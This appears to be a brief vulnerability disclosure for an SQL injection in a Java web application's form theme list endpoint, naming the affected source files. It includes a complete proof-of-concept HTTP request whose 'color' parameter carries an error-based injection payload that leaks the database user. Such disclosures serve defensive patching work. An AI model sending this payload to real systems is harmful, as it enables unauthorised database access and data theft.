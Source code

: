 
Currently, only style is processed in the query, and the color field is not processed, so there is an SQL injection vulnerability.
![](https://github.com/ggg48966/123123/blob/main/1735979423849.jpg)
The code with vulnerabilities is located in QueryProThemeRequest.java and FormThemeController.java
![](https://github.com/ggg48966/123123/blob/main/1735979449582.jpg)
![](https://github.com/ggg48966/123123/blob/main/1735979543493.jpg)

POC：
GET /form/theme/list?color=123+or+updatexml(1,concat(0x7e,user(),0x7e),1)='1&style=&timestamp=1731374089028&sign=f92e491d34aa99336288baf5ff4b826b HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: 
Connection: keep-alive

Remediation recommendations：
We recommend that you update your current system or software to the latest version to fix the vulnerability.
